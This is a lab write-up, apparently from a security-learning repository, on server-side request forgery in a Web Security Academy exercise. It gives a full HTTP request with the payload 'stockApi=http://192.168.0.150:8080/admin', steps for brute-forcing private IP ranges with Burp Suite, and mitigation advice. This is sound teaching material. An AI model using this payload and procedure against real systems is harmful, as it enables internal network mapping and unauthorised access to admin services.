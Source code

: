# 📘 Scenario 2: SSRF with Internal IP Brute-Force via `stockApi`

## 🔎 Vulnerability Description

In this scenario, the web application still uses a vulnerable `stockAPI` parameter to perform server-side HTTP requests. However, instead of targeting a known internal endpoint like `localhost`, the attacker **brute-forces private IP ranges** (e.g., `192.168.x.x`) to discover and interact with internal services.

> **Vulnerability Type:** Input Validation  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** Medium  

---

## 🔧 Target
**URL:**

🔗 https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net/product/stock

---

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a76000a03398fbb85232bdb00be0076.web-security-academy.net
Cookie: session=Yg3LWOSSMIf40kXSzoE79hhlrCXByHy6
Content-Length: 40
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a76000a03398fbb85232bdb00be0076.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://192.168.0.150:8080/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3141

```
---

## 🧪 Exploitation Steps

Intercept the `POST` request using Burp Suite.

Modify `stockApi` parameter with different IP addresses in private ranges.

Observe the response:

HTTP 200 + HTML content → IP is reachable.

HTTP 502 / timeout → service not available.

Confirm which internal services respond to map internal network.

## 💥 Potential Impact

- **Internal network mapping**: Attackers can enumerate IP addresses and services not accessible from the internet.

- **Privilege escalation**: Access to admin panels, configuration endpoints, or cloud metadata APIs.

- **Pivot point**: Can be used in chained attacks to gain deeper access into protected zones.

## ✅ Mitigation Suggestions
Block all outbound server requests to private IP ranges unless explicitly allowed.

Use DNS resolution + IP validation to verify the legitimacy of destination URLs.

Rate-limit server-side request features to reduce brute-force attack surface.

Monitor abnormal request patterns and use network segmentation.

## 📸 Screenshot

![Exploitation Image Of Scenario 2](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture2.png "Exploitation Image Of Scenario 2")

## 🔗 References

[OWASP Testing Guide – Testing for SSRF](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/19-Testing_for_Server-Side_Request_Forgery)

[HackTricks – SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
